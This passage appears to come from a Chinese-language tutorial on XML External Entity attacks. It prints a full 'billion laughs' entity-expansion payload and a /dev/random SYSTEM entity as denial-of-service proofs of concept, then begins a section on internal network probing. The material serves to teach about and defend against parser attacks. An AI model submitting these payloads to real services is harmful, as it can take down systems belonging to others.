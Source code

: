![POC](/img/2015-11-25-03.png)


#### 3.4 DOS


	<?xml version = "1.0"?>
	<!DOCTYPE lolz [  
	<!ENTITY lol "lol">
	<!ELEMENT lolz (#PCDATA)>
	<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
	<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
	<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
	<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
	<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
	<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
	<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
	<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
	<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">]>
	<lolz>&lol9;</lolz>

POC中lol1引用了10个lol，lol2又引用了10个lol1，也就引用了100个lol，以此类推，最后的lol9将引用上亿个lol。如果程序解析该字符串时未做特殊处理，就可能造成拒绝服务攻击。

另一个思路是使用linux系统自带的/dev/random

	<!ENTITY file SYSTEM "file:///dev/random">


#### 3.5 内网探测

基本原理也是利用entity可以发送请求，并且根据请求结果最后返回不同的响应。


![请求不通](/img/2015-11-25-04.png)

